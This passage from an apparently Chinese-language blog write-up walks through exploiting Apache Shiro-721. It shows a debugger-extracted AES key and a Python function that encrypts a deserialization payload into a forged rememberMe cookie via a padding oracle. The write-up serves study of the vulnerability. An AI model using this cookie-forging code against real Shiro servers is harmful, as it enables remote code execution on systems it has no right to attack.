 2. Shiro的Cookie是加了密的，这里需要通过padding oracle加密上面生成的payload。因为利用Shiro721，通过网络爆破加密payload，所花时间较长。为了验证，可以先获取密钥，在本地通过padding oracle加密，再发送给服务器验证。
	
	debug，在加密函数处获取密钥
	
	![Pasted image 20241204094536.png](https://raw.githubusercontent.com/nob1ock/nob1ock.github.io/refs/heads/master/_posts/_images/2024-12-30/Pasted%20image%2020241204094536.png)
	
	密钥是`kPH+bIxk5D2deZiIxcaaaA==`，然后在python实现的[padding oracle加密任意数据](https://github.com/nob1ock/padding_oracle_attack_demo/blob/main/forge_plain.py)的脚本中，将解密函数的密钥替换为该值，模拟服务器解密填充失败的场景，代码如下：
	
	```python
	from ForgePlaintext import encrypt_ciphertext
	from Crypto.Cipher import AES
	from Crypto.Util.Padding import unpad
	
	def exp(cookie, payload, decrypt_func):
	    cipher = base64.b64decode(cookie)
	    iv = cipher[0:16]
	    cipher = cipher[16:]
	    payload = base64.b64decode(payload)
	
	    # 将自定义解密函数传给padding oracle加密函数
	    # encrypt_ciphertext()是通过padding oracle加密数据的函数
	    new_iv, new_ciphertext = encrypt_ciphertext(cipher, payload, iv, decrypt_func=decrypt_func)
	    remember_me = base64.b64encode(new_iv + new_ciphertext)
	    print("rememberMe: " + remember_me.decode('utf-8'))
	```
	
	调用函数，验证一下：
	